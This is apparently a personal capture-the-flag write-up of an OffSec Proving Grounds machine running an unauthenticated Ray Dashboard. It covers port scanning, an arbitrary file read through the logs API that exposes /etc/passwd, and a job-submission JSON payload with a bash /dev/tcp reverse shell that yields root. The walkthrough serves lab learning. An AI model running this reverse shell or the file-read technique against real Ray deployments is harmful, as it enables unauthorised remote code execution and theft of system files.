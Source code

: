 ```yaml
---
title: CTF-200-06 (OffSec. Proving Grounds)
image: /assets/writeups/trace9.jpg
description: Write-up of CTF-200-06 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [ray dashboard, CVE, insecure input validation, linux]
author: trace

---
```




## Enumeration:

```bash
nmap -sC -sV <IP>
```

```bash
rustscan -a 
```

![rustscanresult.png](../../assets/writeups/2023-12-27-CTF-200-06/rustscanresult.png)

quite a few ports open but it was just mainly port `22`, `9000`, & `52365`

#### Port 52365:

This had some `/log` file directory which had the same log as which i found later on in ray dashboard logs

#### Port 9000:

Port `9000` was running [Ray Dashboard](https://docs.ray.io/en/latest/ray-observability/getting-started.html) which is a web-based dashboard for monitoring and debugging Ray applications. The visual representation of the system state, allows users to track the performance of applications and troubleshoot issues.

![port9000.png](../../assets/writeups/2023-12-27-CTF-200-06/port9000.png)

then i visited `Logs` section of the dashboard in order to find something which can come in handy,

```xml
agent-424238335.err
agent-424238335.out
dashboard.err
dashboard.log
dashboard_agent.log
debug_state.txt
debug_state_gcs.txt
events/
gcs_server.err
gcs_server.out
job-driver-Bishop_Fox_00001.log
log_monitor.err
log_monitor.log
monitor.err
monitor.log
monitor.out
old/
python-core-driver-01000000ffffffffffffffffffffffffffffffffffffffffffffffff_1425.log
python-core-driver-02000000ffffffffffffffffffffffffffffffffffffffffffffffff_1713.log
python-core-driver-03000000ffffffffffffffffffffffffffffffffffffffffffffffff_1645.log
python-core-worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572_1728.log
python-core-worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4_3913.log
python-core-worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661_1730.log
raylet.err
raylet.out
runtime_env_agent.log
runtime_env_setup-02000000.log
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.err
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.out
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.err
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.out
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.err
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.out
```

had tons of log files but i didn't find anything worth mentioning, so next I proceeded with looking for Potential Vulnerability in the Web Application running itself And I found it had [CVE-2023-48023,](https://nvd.nist.gov/vuln/detail/CVE-2023-48023) a remote code execution (RCE) vulnerability tied to missing authentication for a critical function; [CVE-2023-48022](https://www.cve.org/CVERecord?id=CVE-2023-48022), a server-side request forgery vulnerability in the Ray Dashboard API that enables RCE; and [CVE-2023-6021,](https://nvd.nist.gov/vuln/detail/CVE-2023-6021) an insecure input validation error that also enables a remote attacker to execute malicious code on an affected system.

## Getting Root:

An insecure input validation is present in the Ray Dashboard’s `/api/v0/logs/file` API endpoint. The endpoint accepts arbitrary filesystem paths and does not require authentication, only connectivity to the Ray Dashboard port (8265 by default). The vulnerability was exploited to obtain the SSH private key used by Ray to authenticate to all other nodes in the associated cluster.


To trigger the vulnerability, a valid `node_id` value was required. A `node_id` could be obtained in the Cluster section of the Ray Dashboard web app in the ID column of the Node List section. In the figure below, the ID of the head node


![nodefound.png](../../assets/writeups/2023-12-27-CTF-200-06/nodefound.png)

I obtained the node ID calling the Dashboard API `/nodes?view=summary`, there's an easy way to do it do is just look at the dashboard and you will find it

Once you have a valid `node_id` value included in the request, the Ray Dashboard API returns the content of any file accessible to the account the web application server is running as. For example, in response to a `curl` command, the API returns the content of the server’s `/etc/passwd` file, as you can see:

![etcpasswd.png](../../assets/writeups/2023-12-27-CTF-200-06/etcpasswd.png)

So, As stated in the blog post i mentioned above the researcher said that in a **typical AWS cloud install, one can find a bootstrap config file in the home directory of the ray user. This bootstrap config file contains various details such as the cluster settings, including the full filesystem path where an SSH key is stored.**

but that's the not the case here unfortunately i was able to retrieve the user private ssh key since every user was set to nologin :shrug: idk why?! maybe there's some other way where they need people to get in via webshell or something but anyways



I later on via this method got the `/usr/bin/python3 /opt/server-ml.py`

```python
import ray
import time
import os
import fcntl
import socket
import struct


def get_ip_addr(interface: str) -> str:
    # took it from https://gist.github.com/EONRaider/3b7a8ca433538dc52b09099c0ea92745
    """
    Uses the Linux SIOCGIFADDR ioctl to find the IP address associated
    with a network interface, given the name of that interface, e.g.
    "eth0". Only works on GNU/Linux distributions.
    Source: https://bit.ly/3dROGBN
    Returns:
        The IP address in quad-dotted notation of four decimal integers.
    """
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        packed_iface = struct.pack('256s', interface.encode('utf_8'))
        packed_addr = fcntl.ioctl(sock.fileno(), 0x8915, packed_iface)[20:24]
        return socket.inet_ntoa(packed_addr)
    except Exception as e:
        print(f"An exception occurred while trying to get the ip addr: {e}")
        pass


curr_ip_addr = get_ip_addr("ens160")
#print(curr_ip_addr)

if curr_ip_addr.startswith("172."):
    # wait till it gets the correct ip addr
    while not curr_ip_addr.startswith("192."):
        curr_ip_addr = get_ip_addr("ens160")

time.sleep(3)

ray.init(dashboard_host="0.0.0.0", include_dashboard=True, dashboard_port=9000)

# ray dashboard is tied to the script life-cycle:)
while True:
    time.sleep(1)
```




lol, i didn't find it that interesting so i just moved ahead with a different approach and try to get the root shell


[Protect AI published a MetaSploit Framework module that exploits this technique along with their disclosure](https://github.com/protectai/ai-exploits/blob/main/ray/msfmodules/ray_job_rce.py), although they did not call out the lack of authentication as a vulnerability. Researcher Bryce Bearchell independently submitted two reports to Protect AI’s huntr platform (https://huntr.com/bounties/787a07c0-5535-469f-8c53-3efa4e5717c7/ and https://huntr.com/bounties/b507a6a0-c61a-4508-9101-fceb572b0385/) during the same time period that Bishop Fox reported the issue directly to Anyscale. However, the reports were closed based on Anyscale’s position that the behavior is by design, and therefore should not be perceived as a vulnerability.


The Ray Jobs Python SDK can also be used to execute code remotely without authentication. The arbitrary command execution is obtained by crafting a malicious Python script using the Ray API to submit a task and then calling this malicious script in the entrypoint parameter of the `JobSubmissionClient` object.
Also, the Ray Client API – exposed on TCP port `10001` by default – was vulnerable to unauthenticated remote code execution via a very similar technique but sadly we don't have it so i dropped that idea and went ahead with the different approach,


And this was pretty direct method of exploitation discovered is to submit arbitrary operating system commands for execution via the job submission API using a raw HTTP request or the Ray Jobs Python SDK. These do not require authentication in the default configuration, and are accessible remotely to any system with access to the Ray Dashboard (TCP port 8265 by default).


So now we craft a JSON job submission to execute the Linux shell command to get a reverse shell using `bash -i >& /dev/tcp/your_ip/your_port 0>&1`, sending the malicious JSON file to the jobs API, and then retrieving the output of the executed command like this:

![reverseshelljson.png](../../assets/writeups/2023-12-27-CTF-200-06/reverseshelljson.png)

> cat_passwd.json:

```json
{
  "entrypoint": "bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1'",
  "submission_id": "wtf",
  "runtime_env": {},
  "metadata": {},
  "entrypoint_num_cpus": 1,
  "entrypoint_num_gpus": 0,
  "entrypoint_resources": {}
}
```

and then we get a callback and we manage to pop a shell as root user

![gotrootshell.png](../../assets/writeups/2023-12-27-CTF-200-06/gotrootshell.png)


